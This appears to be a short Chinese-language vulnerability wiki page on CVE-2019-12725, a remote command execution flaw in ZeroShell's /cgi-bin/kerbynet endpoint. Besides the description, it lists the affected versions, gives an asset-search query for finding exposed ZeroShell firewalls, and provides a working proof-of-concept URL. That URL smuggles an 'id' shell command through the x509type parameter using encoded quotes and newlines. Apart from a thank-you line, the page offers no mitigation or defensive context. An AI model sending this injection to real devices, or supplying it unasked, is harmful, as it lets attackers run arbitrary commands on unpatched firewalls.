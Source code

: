 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>ZeroShell < 3.9.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Zeroshell-防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/zm-2.png)



验证的POC为



```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```



![img](/assets/PeiQi-Wiki/img/zm-1.png)



若有收获，就点个赞吧